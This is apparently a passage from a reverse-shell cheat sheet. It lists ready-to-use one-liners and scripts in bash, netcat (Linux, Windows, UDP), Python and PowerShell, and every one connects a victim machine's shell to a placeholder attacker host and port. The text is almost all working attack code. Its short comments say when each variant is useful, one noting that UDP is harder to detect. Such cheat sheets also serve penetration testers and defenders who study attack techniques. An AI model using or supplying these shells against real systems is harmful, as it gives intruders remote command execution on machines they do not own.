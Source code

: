 ```bash
rm -f /tmp/revpipe; mkfifo /tmp/revpipe; cat /tmp/revpipe | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/revpipe
```

## TCP Reverse Shell
A **TCP reverse shell** establishes a persistent connection using the TCP protocol.

**Example (Netcat Linux):**
```bash
nc -e /bin/sh ATTACKER_IP ATTACKER_PORT
```

**Example (Netcat Windows):**
```powershell
nc.exe -e cmd.exe ATTACKER_IP ATTACKER_PORT
```

## UDP Reverse Shell
A **UDP reverse shell** functions similarly to TCP but uses UDP, making it harder to detect due to its stateless nature.

**Example (Netcat UDP):**
```bash
nc -u -e /bin/sh ATTACKER_IP ATTACKER_PORT
```

## Bash Reverse Shell
Bash-based shells are useful when Netcat is unavailable.

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

## Python Reverse Shell
Python shells are versatile and often used in web-based attacks.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP",ATTACKER_PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh", "-i"])
```

## PowerShell Reverse Shell
PowerShell shells are commonly used in Windows environments.

```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", ATTACKER_PORT)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()};
$client.Close()
```

